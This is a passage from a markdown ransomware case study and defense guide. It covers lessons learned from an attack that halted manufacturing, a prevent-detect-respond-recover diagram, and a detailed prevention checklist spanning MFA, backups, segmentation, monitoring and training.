5. **Business Impact**
   - 18 days downtime unacceptable
   - Manufacturing completely halted
   - Customer relationships damaged
   - Competitive position weakened

### Critical Lessons



**Key Takeaways**:

1. **MFA Would Have Prevented This**
   - Single most important control
   - $50,000 investment vs. $12.3M loss
   - No MFA = invitation to attackers

2. **Backups are Insurance**
   - 3-2-1-1-0 rule mandatory
   - Air-gapped/offline crucial
   - Test regularly or they're useless
   - Immutable backups prevent encryption

3. **Network Segmentation Limits Damage**
   - Flat networks = total compromise
   - Segment IT from OT
   - Tiered admin model
   - Microsegmentation where possible

4. **Detection Capability Critical**
   - 16 days dwell time unacceptable
   - SOC/SIEM not optional
   - Behavioral analytics catch what signatures miss
   - Threat hunting proactively finds adversaries

5. **Human Layer is Weakest**
   - Technical controls insufficient alone
   - Continuous training required
   - Culture change takes time but essential
   - Make security everyone's job

6. **Incident Response is Mandatory**
   - Plan before you need it
   - Test through exercises
   - Know your vendors/resources
   - Communication templates ready

7. **Don't Pay the Ransom** (usually)
   - No guarantee of decryption
   - Funds criminal enterprise
   - Marks you as willing payer
   - Focus on prevention and backup

---

## Prevention Strategies

### Comprehensive Defense Strategy

```mermaid
graph TD
    A[Ransomware Defense] --> B[Prevent]
    A --> C[Detect]
    A --> D[Respond]
    A --> E[Recover]
    
    B --> B1[Email Security]
    B --> B2[MFA Everywhere]
    B --> B3[EDR/XDR]
    B --> B4[Network Segmentation]
    B --> B5[Patch Management]
    B --> B6[Privileged Access Management]
    
    C --> C1[24x7 SOC]
    C --> C2[SIEM]
    C --> C3[Behavioral Analytics]
    C --> C4[Threat Hunting]
    C --> C5[User Behavior Analytics]
    
    D --> D1[Incident Response Plan]
    D --> D2[Automated Response]
    D --> D3[Isolation Procedures]
    D --> D4[Communication Plan]
    
    E --> E1[Immutable Backups]
    E --> E2[Offline Backups]
    E --> E3[Tested Backups]
    E --> E4[Rapid Restore Capability]
```

### Ransomware Prevention Checklist

#### Identity & Access Management

**Authentication** (see [../authentication.md](../authentication.md)):
- [ ] MFA enforced for all users (100% coverage)
- [ ] Phishing-resistant MFA for admins (FIDO2, security keys)
- [ ] Password policy: 14+ characters, complexity, no reuse
- [ ] Password breach checking integrated
- [ ] Account lockout after failed attempts
- [ ] Conditional access policies (risk-based)

**Authorization** (see [../authorization.md](../authorization.md)):
- [ ] Least privilege principle enforced
- [ ] Privileged Access Management (PAM) deployed
- [ ] Just-In-Time (JIT) access for admin tasks
- [ ] Regular access reviews (quarterly)
- [ ] Separation of duties for critical functions
- [ ] No shared admin accounts

#### Email Security

- [ ] Advanced email security (Proofpoint, Mimecast, etc.)
- [ ] URL rewriting and sandboxing
- [ ] Attachment sandboxing
- [ ] Email authentication (DMARC, SPF, DKIM)
- [ ] External email banners
- [ ] Block dangerous file types (.exe, .scr, .vbs, etc.)
- [ ] Impersonation protection

#### Endpoint Security

- [ ] EDR/XDR on all endpoints (100% coverage)
- [ ] Application whitelisting
- [ ] Disable macros by default
- [ ] Remove local admin rights
- [ ] USB device control
- [ ] Full disk encryption
- [ ] Regular patching (automated)

#### Network Security (see [../network_security.md](../network_security.md))

- [ ] Network segmentation implemented
- [ ] IT/OT networks separated
- [ ] Tiered administrative model
- [ ] Micro-segmentation for critical systems
- [ ] Zero Trust architecture
- [ ] IDS/IPS deployed
- [ ] Network access control (NAC)

#### Backup & Recovery

- [ ] 3-2-1-1-0 backup strategy
- [ ] Immutable backups (cannot be deleted)
- [ ] Air-gapped/offline backups
- [ ] Backups on separate network
- [ ] Backups tested monthly
- [ ] Documented recovery procedures
- [ ] Recovery time objectives (RTO) defined

#### Monitoring & Detection (see [../monitoring_auditing.md](../monitoring_auditing.md))

- [ ] 24x7 Security Operations Center
- [ ] SIEM with correlation rules
- [ ] Behavioral analytics
- [ ] File integrity monitoring
- [ ] Privileged account monitoring
- [ ] Data exfiltration detection
- [ ] Threat intelligence integration

#### Vulnerability Management

- [ ] Automated vulnerability scanning
- [ ] Patch management program
- [ ] Critical patches within 48 hours
- [ ] Regular penetration testing
- [ ] Red team exercises
- [ ] Bug bounty program

#### Incident Response

- [ ] Incident response plan documented
- [ ] IR team identified and trained
- [ ] Playbooks for ransomware
- [ ] Communication templates ready
- [ ] Quarterly tabletop exercises
- [ ] Forensic readiness
- [ ] Cyber insurance policy

#### Security Awareness

- [ ] Continuous security training
- [ ] Monthly phishing simulations
- [ ] Role-specific training
- [ ] Security champions program
- [ ] Incident reporting culture
- [ ] Measurable awareness metrics

